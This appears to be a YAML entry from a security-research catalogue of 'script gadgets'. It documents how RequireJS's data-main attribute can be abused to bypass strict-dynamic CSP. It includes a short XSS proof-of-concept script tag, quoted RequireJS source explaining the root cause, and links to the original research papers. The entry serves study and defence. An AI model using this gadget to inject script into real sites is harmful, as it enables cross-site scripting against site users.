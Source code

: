 ```yaml
---
description: RequireJS loads plain JavaScript files as well as more defined modules. It is optimized for in-browser use, including in a Web Worker, but it can be used in other JavaScript environments, like Rhino and Node. It implements the Asynchronous Module API.
github: requirejs/requirejs
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - data-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [RequireJS](https://github.com/requirejs/requirejs) library loads scripts from the `data-main` attribute on `script` tags.
        code: |
          <!-- user input -->
          <script data-main='data:1,alert(document.domain)'></script>

          <script type="text/javascript" src="https://requirejs.org/docs/release/2.3.2/comments/require.js" nonce="secret"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/requirejs/requirejs/blob/945ae6b41ef81851a030d93759bd36ac75a39958/require.js#L139">https://github.com/requirejs/requirejs/blob/945ae6b41ef81851a030d93759bd36ac75a39958/require.js#L139</a>

      ```javascript
      function scripts() {
          return document.getElementsByTagName('script');
      }
      ```

      Source: <a target="_blank" href="https://github.com/requirejs/requirejs/blob/945ae6b41ef81851a030d93759bd36ac75a39958/require.js#L2010">https://github.com/requirejs/requirejs/blob/945ae6b41ef81851a030d93759bd36ac75a39958/require.js#L2010</a>

      ```javascript
      eachReverse(scripts(), function (script) {
          //Set the 'head' where we can append children by
          //using the script's parent.
          if (!head) {
              head = script.parentNode;
          }

          //Look for a data-main attribute to set main script for the page
          //to load. If it is there, the path to data main becomes the
          //baseUrl, if it is not already set.
          dataMain = script.getAttribute('data-main');
          if (dataMain) {
              //Preserve dataMain in case it is a path (i.e. contains '?')
              mainScript = dataMain;

              //Set final baseUrl if there is not already an explicit one,
              //but only do so if the data-main value is not a loader plugin
              //module ID.
              if (!cfg.baseUrl && mainScript.indexOf('!') === -1) {
                  //Pull off the directory of data-main for use as the
                  //baseUrl.
                  src = mainScript.split('/');
                  mainScript = src.pop();
                  subPath = src.length ? src.join('/')  + '/' : './';

                  cfg.baseUrl = subPath;
              }

              //Strip off any trailing .js since mainScript is now
              //like a module name.
              mainScript = mainScript.replace(jsSuffixRegExp, '');

              //If mainScript is still a path, fall back to dataMain
              if (req.jsExtRegExp.test(mainScript)) {
                  mainScript = dataMain;
              }

              //Put the data-main script in the files to load.
              cfg.deps = cfg.deps ? cfg.deps.concat(mainScript) : [mainScript];

              return true;
          }
      });
      ```
    links:
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/requirejs.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/requirejs_exploit.php
---
```

